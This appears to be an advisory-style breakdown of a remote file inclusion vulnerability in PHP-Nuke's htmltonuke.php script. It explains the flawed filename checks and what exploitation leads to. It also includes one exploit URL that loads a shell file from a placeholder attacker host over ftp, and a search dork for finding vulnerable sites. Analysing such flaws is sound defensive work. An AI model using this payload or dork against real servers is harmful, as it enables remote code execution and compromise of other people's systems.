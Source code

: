 Based on the provided content, here's a breakdown of the vulnerability:

*   **Root Cause:** The vulnerability lies in the `htmltonuke.php` script of the `htmltonuke` module for PHP-Nuke, specifically in how it handles the `filnavn` parameter. The script attempts to prevent directory traversal and inclusion of external files, but these checks are insufficient, allowing for Remote File Inclusion (RFI).

*   **Weaknesses/Vulnerabilities Present:**
    *   **Insufficient Input Validation:** The script checks if the filename ends with ".htm" or ".html", and if it does not start with "./../" or "http://". However, it fails to prevent inclusion of remote files using protocols like "ftp://", as long as the filename ends with the allowed extensions
    *   **Remote File Inclusion (RFI):** Due to the flawed checks, an attacker can supply a remote URL via the `filnavn` parameter, leading to arbitrary code execution by including a malicious file from a remote server.

*   **Impact of Exploitation:**
    *   **Arbitrary Code Execution:** By including a malicious PHP file from a remote server, an attacker can execute arbitrary PHP code on the vulnerable server. This can lead to complete system compromise, data theft, or other malicious activities.

*   **Attack Vectors:**
    *   **HTTP GET Request:** The attacker exploits the vulnerability through a crafted HTTP GET request to `htmltonuke.php`, using the `filnavn` parameter to include a malicious file from a remote server.

*   **Required Attacker Capabilities/Position:**
    *   **Network Access:** The attacker needs to be able to send HTTP requests to the vulnerable server.
    *   **External Server:** The attacker needs access to a server to host the malicious PHP file.
    *   **Knowledge of Vulnerable Script:** The attacker needs to know the location of the vulnerable `htmltonuke.php` script and the name of the vulnerable parameter.

**Additional Notes:**

*   The provided content includes an example exploit URL demonstrating how to include a remote file using the `ftp://` protocol: `http://www.example.com/nuke_path/htmltonuke.php?filnavn=ftp://user:pass@evilsite.com/public_html/shell.html`.
*   The exploit was verified by the Exploit Database (EDB).
*   The vulnerability is identified as a Remote File Inclusion (RFI) vulnerability.
*   The content provides a dork: `" /nuke/htmltonuke.php" - "htmltonuke.php"` to find vulnerable installations.